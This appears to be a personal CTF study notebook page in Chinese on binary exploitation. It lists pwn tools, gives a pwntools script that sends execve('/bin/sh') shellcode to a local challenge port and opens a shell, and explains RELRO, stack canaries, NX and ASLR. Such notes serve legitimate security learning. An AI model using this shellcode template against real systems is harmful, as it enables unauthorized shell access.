

repository: huaeryi/notebook · page: ctf/pwn/index.html · generator: mkdocs

# Pwn

### Pwn工具
???+ abstract "tools"

    - 脚本编写
        * pwntools：写exp和poc的利器
    - 调试工具
        * GDB: Linux调试中必要用到的
        * gdb-peda、pwndbg、gef: GDB调试插件
        * windbg: windows环境    
    - 程序信息
        * checksec：可以很方便的知道elf程序的安全性和程序的运行平台
        * objdump ：可以很快的知道elf程序中的关键信息
        * readelf：可以很快的知道elf程序中的关键信息
        * file：查看文件类型
    - 反汇编 
        * IDA pro：反汇编工具
        * ghidra：反汇编工具，冷门架构
    - libc相关     
        * libc-databases：可以通过泄露的libc的某个函数地址查出远程系统是用的哪个libc版本
        * ROPgadget：强大的rop利用工具
        * one_gadget：可以快速的寻找libc中的调用exec('/bin/sh')的位置
     
    - 需要注意gdb中的栈空间和直接运行是不一样的，即使关闭了ASLR

### Shellcode
* `checksec`检测程序防御方式
* pwntools编写shellcode攻击脚本
* `cyclic 10`生成大小为10字符串
* [shellcode exp](http://shell-storm.org/shellcode/)
???+ abstract "shellcode"

    === "Python"

        ``` python linenums="1"
        from pwn import *

        context.update(arch='i386', os='linux')
        # context.log_level = 'debug'
        r = remote('0.0.0.0', 11003)

        shellcode = asm('''
                mov edx, 0
                mov ecx, 0
                push 0x68732f
                push 0x6e69622f
                mov ebx, esp
                mov eax, 0xb
                int 0x80
        ''')
        r.send(shellcode)
        r.interactive()
        ```

### Defense
* 用`checksec`检测二进制文件防御手段

???+ abstract "Defense"

    ```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)    
    ```


#### RELRO
* 开启说明got表不可修改

#### Canary
* 堆栈金丝雀，在函数调用时写入cookie，在返回时检查

#### NX
* 栈不可执行

#### ASLR
* 地址空间随机化ASLR(address space layout randomization)
* 即PIE
* 0 - 表示关闭进程地址空间随机化
* 1 - 表示将mmap的基址，stack和vdso页面随机化
* 2 - 表示在1的基础上增加堆（heap）的随机化



### x86

#### x86寄存器
??? abstract "x86 register"

    ![](register1.png)
    ![](register2.png)
